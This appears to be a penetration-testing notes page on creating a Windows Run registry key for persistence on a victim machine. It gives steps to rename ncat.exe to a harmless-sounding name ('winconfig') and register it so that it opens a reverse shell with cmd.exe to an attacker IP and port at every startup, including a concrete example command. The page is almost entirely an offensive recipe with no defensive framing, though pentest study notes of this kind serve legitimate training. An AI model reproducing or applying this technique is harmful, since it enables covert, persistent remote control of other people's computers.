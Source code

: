 ```yaml
---
title: Create a Registry
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
---
```


# Create a Registry

Registries in the victim machine may be used to save a connection to the attacker machine.

### Regedit

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Right-Button > New > String value

We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>

We edit the registry and we add the path to the executable file and some commands  in the Value data:

“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”

For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```

### Python script that add a binary to the Registry

See [Making your binary persistent](python/making-your-binary-persistent.md)
